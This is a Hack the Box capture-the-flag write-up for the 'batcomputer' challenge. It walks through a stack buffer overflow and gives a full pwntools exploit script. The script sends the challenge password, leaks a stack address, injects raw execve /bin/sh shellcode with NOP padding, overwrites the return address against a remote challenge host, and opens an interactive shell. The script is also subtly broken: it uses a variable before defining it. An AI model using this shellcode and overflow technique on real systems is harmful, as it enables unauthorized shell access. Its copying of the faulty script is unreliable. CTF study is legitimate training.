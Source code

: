 ```yaml
---
layout: post
title:  Hack the Box rev batcomputer 
image: /assets/img/HTB-Logo.png
date:   2022-12-12 11:15:01
tags:
- rev
description: Basic rev challenge
categories:
- Hack The Box
---
```



batcomputer 
This challenge is about a buffer overflow, a shellcode and a bug i found in the gdb

First of all if you have push rsp and input ni in the gdb it will be like it executed a function (it happened to me during shellcode debugging)

Now the challenge:


Determining the buffer offset and length:

![](assets/img/2022-09-16-12-11-06.png)

var60 is at 96 bytes away from the stack pointer as seen below:
![](assets/img/2022-09-16-12-11-54.png)

but the function adds 0x14 to the address so we are 76 bytes away from the stack and 84 away from the return 

The shellcode is from https://www.exploit-db.com/exploits/42179 :

The buffer variable can be seen in the comments here as well as the way we use after to get to the return:
![](assets/img/2022-09-16-12-29-20.png)

The payload:
```
sender=asm(shellcode, arch = 'amd64')	

context.update(arch='amd64', os='linux')

#io = process("./batcomputer")
io=remote('178.62.82.68',31321)
#io=gdb.debug("./batcomputer",'break read ')
io.sendline('1')
io.sendline('2')
shellcode=b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"



io.sendline('b4tp@$$w0rd!')
io.recvuntil('It was very hard, but Alfred managed to locate him: ')
address=io.recvline().strip()
firstinst="push rax\n push rbx\nmov rsp,"+hex(int(address.decode(),16)-100)
shellcode=asm(firstinst)+shellcode

print(sender)
print(len(shellcraft.sh()))
sender= shellcode+asm(shellcraft.nop())*(76-len(shellcode))+8*b'a'+p64(int(address,16))
print(address)
print(len(sender))
io.send(sender)

io.sendline('3')
io.interactive()
```
